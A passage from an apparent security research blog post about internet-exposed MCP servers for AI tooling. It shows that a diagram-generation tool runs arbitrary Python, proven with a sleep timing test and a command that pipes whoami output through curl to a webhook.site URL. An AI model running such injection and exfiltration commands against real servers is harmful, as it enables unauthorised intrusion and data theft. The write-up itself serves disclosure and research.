 ```hljs shell
-> Tools:
   1. Generate workflows (for flowcharts or low code) in DOT format
      generate_png_from_dot '{"dot_string": "", "prompt_id": ""}'
   2. Execute the cloud system architecture Diagrams code and generate an image.
      execute_diagrams_code '{"diagrams_code": "", "filename": ""}'
```

_One of these_ definitely sounds a hell of a lot more suspicious than the other. Searching online for "cloud system architecture Diagrams code", we quickly find the [github.com/mingrammer/diagrams](https://github.com/mingrammer/diagrams "") repository. It's a Python library that allows you to generate diagram images from code. With this MCP server, we can "execute" this kind of code, so it seems like we can just run any arbitrary Python?

```hljs shell
$ time mcpc http://13.███.██.██:8000 execute_diagrams_code '{"diagrams_code": "print(1+1)", "filename": "x"}'

Error during execution: [Errno 2] No such file or directory: 'C:\\Users\\a██████k\\Downloads\\WORK\\MCP\\Diagarams mcp\\diagrams_tmp\\x.png'

real    0m2.217s
```

> **Note**: at first we thought the PNG needed to exist, and the error was _before_ our code got a chance to execute. This turned out to be false, but we got it working anyway with a path traversing back to `C:\Windows\IdentityCRL\wlive48x48.png` :)

We don't see the output of a `print()` statement, but we can try to let it sleep for a bit to check if the code still executes:

```hljs shell
$ time mcpc http://13.███.██.██:8000 execute_diagrams_code '{"diagrams_code": "__import__(\"time\").sleep(5)", "filename": "x"}'

real    0m7.080s
```

Our instructions of sleeping for 5 seconds caused a 5-second increase in response time, that's a good sign to me. Now to fully prove impact, we can run a _Windows_ system command and exfiltrate its output:

```hljs shell
$ mcpc http://13.███.██.██:8000 execute_diagrams_code '{"diagrams_code": "__import__(\"os\").system(\"whoami | curl.exe https://webhook.site/41██████-████-████-████-██████████2f -d@-\")", "filename": "x"}'

Error during execution: [Errno 2] No such file or directory: 'C:\\Users\\a██████k\\Downloads\\WORK\\MCP\\Diagarams mcp\\diagrams_tmp\\x.png'
```

![Screenshot of webhook.site callback with whoami output](https://blog.jaisal.dev/assets/mcp-python-callback.png)

> `ec2amaz-███████\a██████k`

We're a Windows user on an Amazon EC2 instance, which makes sense because we were scanning cloud providers.

### Vulnerabilities

#### Browser file:// protocol

While looking at popular MCP servers, we already saw [Playwright](https://github.com/microsoft/playwright-mcp ""). This lets an LLM automate a browser like the one you're reading this post with. It turns out that this is such a common server that multiple exposed instances were found. Here's one:

```hljs shell
$ mcpc http://35.██.███.███:8080

Name: 'Playwright'
```